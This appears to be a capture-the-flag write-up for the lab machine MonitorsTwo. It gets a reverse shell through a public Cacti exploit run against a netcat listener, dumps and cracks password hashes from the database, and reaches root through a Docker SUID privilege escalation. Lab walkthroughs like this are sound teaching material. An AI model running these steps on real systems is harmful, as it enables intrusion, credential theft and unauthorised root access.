



# MonitorsTwo
    We'll start with nmap scan, to see what's available
`nmap -vv -sC -sV $IP -oA nmap/full`

```st
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC82vTuN1hMqiqUfN+Lwih4g8rSJjaMjDQdhfdT8vEQ67urtQIyPszlNtkCDn6MNcBfibD/7Zz4r8lr1iNe/Afk6LJqTt3OWewzS2a1TpCrEbvoileYAl/Feya5PfbZ8mv77+MWEA+kT0pAw1xW9bpkhYCGkJQm9OYdcsEEg1i+kQ/ng3+GaFrGJjxqYaW1LXyXN1f7j9xG2f27rKEZoRO/9HOH9Y+5ru184QQXjW/ir+lEJ7xTwQA5U1GOW1m/AgpHIfI5j9aDfT/r4QMe+au+2yPotnOGBBJBz3ef+fQzj/Cq7OGRR96ZBfJ3i00B/Waw/RI19qd7+ybNXF/gBzptEYXujySQZSu92Dwi23itxJBolE6hpQ2uYVA8VBlF0KXESt3ZJVWSAsU3oguNCXtY7krjqPe6BZRy+lrbeska1bIGPZrqLEgptpKhz14UaOcH9/vpMYFdSKr24aMXvZBDK1GJg50yihZx8I9I367z0my8E89+TnjGFY2QTzxmbmU=
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBH2y17GUe6keBxOcBGNkWsliFwTRwUtQB3NXEhTAFLziGDfCgBV7B9Hp6GQMPGQXqMk7nnveA8vUz0D7ug5n04A=
|   256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKfXa+OM5/utlol5mJajysEsV4zb/L0BJ1lKxMPadPvR
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 4F12CCCD3C42A4A478F067337FE92794
|_http-title: Login to Cacti
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Web


    We can go one of two ways to start off, we could try some SQLi injection to bypass authentication or we can investigate the Cacti version as see if it's vulnereable. If a version number in provided from the get go I prefer to quickly google it for known exploits, since it's less time consuming, going for the lowest hanging fruit.
## RCE exploit
    And we have an exploit ready to go from FredBrave
`https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22/blob/main/CVE-2022-46169.py`

`python3 exploit.py -u http://[Target's IP] --LHOST=[Your ip] --LPORT=[Your port]`


    Set up listener before running the exploit:

`nc -lvnp [Your port]`


## dockerenv shell

    Now that we're in we should snoop around and see what catches our eye.

    We're in a dockerenv, and also there's no users set up, so user flag is most likely not within the dockerenv.



### entrypoint.sh

```#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
        set -- apache2-foreground "$@"
fi

exec "$@"
```

## Mysql

    With this we can browse the DB to check for anything of value
`mysql --host=db --user=root --password=root cacti -e "show tables"`

    user_auth seems interesting since we could get some credentials


`mysql --host=db --user=root --password=root cacti -e "select * from user_auth"`

    We find some hashes for a few accounts.


    Run the hashes through john to see if we can crack any of them. And we can for marcus.


## SSH as marcus
`ssh marcus@$IP`


### User flag:


    If we paid any atentian when we SSH'd in we saw that we had mail, let's go read it at `/var/mail/marcus`


CVE-2021-41091 This is what's the most interesting
`https://github.com/UncleJ4ck/CVE-2021-41091`

    We re-create the exploit on the target and try running it. 


    Looks like we need to have root access within the dockerenv to set the SUID bit. 
`find / -type f -perm /4000 2>/dev/null`



### GTFOBINS
    to find SUID PrivEsc for capsh



### PrivEsc


Now we just need to set `u+s` for `/bin/bash` , however to not ruin other players experience let's copy `/bin/bash` to `/tmp` so that we can remove it later. 

When that's done we can run the exploit we made on the SSH'd shell and run it with yes, which will indicate which container is rooted.


append the rooted directory with `/tmp/bash -p` and we'll gain root.


### root flag: 


